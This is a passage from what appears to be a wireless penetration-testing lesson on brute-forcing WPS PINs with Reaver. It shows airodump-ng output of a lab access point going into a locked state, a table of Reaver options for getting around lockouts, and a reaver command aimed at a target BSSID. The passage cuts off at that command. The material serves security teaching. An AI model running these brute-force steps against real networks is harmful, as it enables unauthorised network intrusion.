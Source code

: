 [!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking
</code></pre>
<p>After three incorrect attempts, the AP will enter a <code>Locked</code> state for <code>60 seconds</code>. Each subsequent wrong PIN attempt will cause the AP to lock for another 60 seconds. However, after 10 incorrect attempts, the AP will lock for <code>365 days</code>.</p>
<p>We can observe in the <code>airodump-ng</code> output that the access point goes into a <code>Locked</code> state.</p>
<pre><code class="language-shell-session">[!bash!]$ airodump-ng mon0 --wps -c 1


 CH  1 ][ Elapsed: 48 s ][ 2024-07-01 19:52 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS                ESSID

 86:53:10:C3:1B:26  -28   0      483       33    0   1   54   WPA2 CCMP   PSK Locked              HackMe  
</code></pre>
<p>In some cases, vendors might have not implemented strict lock mechanisms, allowing us to continue bruteforcing using Reaver. The tool can be fine-tuned with additional advanced switches to optimize the bruteforce process, for example:</p>
<table>
<thead>
<tr>
<th><strong>Option</strong></th>
<th><strong>Description</strong></th>
</tr>
</thead>
<tbody>
<tr>
<td><code>-L, --ignore-locks</code></td>
<td>Ignore locked state reported by the target AP</td>
</tr>
<tr>
<td><code>-N, --no-nacks</code></td>
<td>Do not send NACK messages when out of order packets are received</td>
</tr>
<tr>
<td><code>-d, --delay=&lt;seconds&gt;</code></td>
<td>Set the delay between pin attempts [1]</td>
</tr>
<tr>
<td><code>-T, --m57-timeout=&lt;seconds&gt;</code></td>
<td>Set the M5/M7 timeout period [0.40]</td>
</tr>
<tr>
<td><code>-r, --recurring-delay=&lt;x:y&gt;</code></td>
<td>Sleep for y seconds every x pin attempts</td>
</tr>
</tbody>
</table>
<hr/>
<p>With the latest models from certain vendors, when the access point reaches the 10th incorrect PIN attempt, it will lock for 365 days, preventing any further bruteforce attempts.</p>
<pre><code class="language-shell-session">[!bash!]$ reaver -i mon0 -c 1 -b 86:53:10:C3:1B:26 -v
